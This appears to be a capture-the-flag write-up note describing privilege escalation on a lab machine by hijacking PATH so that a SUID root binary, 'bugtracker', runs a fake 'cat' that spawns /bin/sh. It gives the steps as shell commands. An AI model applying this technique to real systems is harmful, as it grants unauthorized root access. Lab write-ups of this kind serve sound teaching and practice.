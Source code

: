 # SUID
Found a file with `find / -group bugtracker 2>/dev/null` that only members of `bugtracker` can execute. It has the SUID flag with root privileges.

```ad-info
SUID allows an alternate user to run an executable with the same permissions as the owner of the file instead of the permissions of the alternate user.
```

The file accept user input as a name of the file that will be read using `cat`, however, it does not specifies the whole path. Might be able to exploit this.

1. Create a file in /tmp directory named `cat` with this content:
```bash
/bin/sh
```

2. Set execute privileges:
```bash
$ chmod +x cat
```

3. Add /tmp directory to $PATH environmental variable.
```bash
export PATH=/tmp:$PATH
```
```ad-info
PATH is an enviroment variable on Unix-like operating systems, DOS, OS/2, and Microsoft Windows, specifying a set of directorioes where executable programs are located.
```

4. Execute `bugtracker` in `/tmp` directory.

5. Flag can be found in `/root` directory.

